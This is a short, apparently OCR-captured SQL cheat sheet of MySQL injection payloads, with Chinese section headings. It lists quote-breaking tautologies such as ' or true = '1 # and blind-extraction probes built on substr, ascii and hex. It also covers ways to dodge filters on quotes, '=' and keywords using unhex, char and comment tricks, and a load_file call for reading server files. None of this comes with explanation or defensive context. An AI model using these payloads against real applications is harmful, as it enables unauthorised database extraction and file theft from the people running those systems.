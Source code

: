 ``` sql
  
 'abc' = 0×616263
  
  ' and substr(data,1,1) = 'a'#
  
  ' and substr(data,1,1) = 0x61 # 0x6162
  
  ' and substr(data,1,1) = unhex(61)    # unhex(6162)
  
  ' and substr(data,1,1) = char(97  )# char(97,98)
  
  ' and substr(data,1,1) = 'a'#
  
  ' and hex(substr(data,1,1)) = 61#
  
  ' and ascii(substr(data,1,1)) = 97#
  
  ' and ord(substr(data,1,1)) = 97# 
  
  ' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
#别名
  
select pass as alias from users
  
select pass`alias alias`from users
#字型
  
' or true = '1 # or 1=1
  
' or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
  
' or '1 # or true
  
#操作符字型
  
select * from users where 'a'='b'='c'
  
select * from users where ('a'='b')='c'
  
select * from users where (false)='c'
#认真绕过'='
  
select * from users where name = "="
  
select * from users where false = "
  
select * from users where 0 = 0
  
select * from users where true#函数过滤器ascii (97)
  
load_file/*foo*/(0×616263)
#用函数构建字符串
  
'abc' = unhex(616263)
  
'abc' = char(97,98,99)
  
 hex('a') = 61
  
 ascii('a') = 97
  
 ord('a') = 97
  
```